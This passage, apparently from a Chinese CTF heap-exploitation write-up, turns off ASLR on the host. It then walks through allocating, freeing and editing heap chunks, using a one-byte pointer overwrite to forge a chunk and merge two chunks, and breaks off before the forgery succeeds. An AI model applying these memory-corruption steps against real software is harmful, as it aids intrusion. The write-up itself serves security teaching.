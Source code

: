 ## 详细流程

为了方便，我们先关闭 ASLR

```plain
su
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

首先申请几个堆块，最后一个起保护作用。

```plain
add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
```

我们的目的是合并 chunk1 和 chunk8

```plain
delete(1)
delete(0)
```

[![](assets/1701612416-dd64db3b90a9c7f2c2dd3e3198530d65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170046-1a9c5fee-14c9-1.png)

```plain
edit(0,'\x50')
```

[![](assets/1701612416-1f8a07d22d57cd8a3f4525378f8f1a17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170100-22d24cd2-14c9-1.png)  
这时还没有在 0x555555757050 处伪造成功
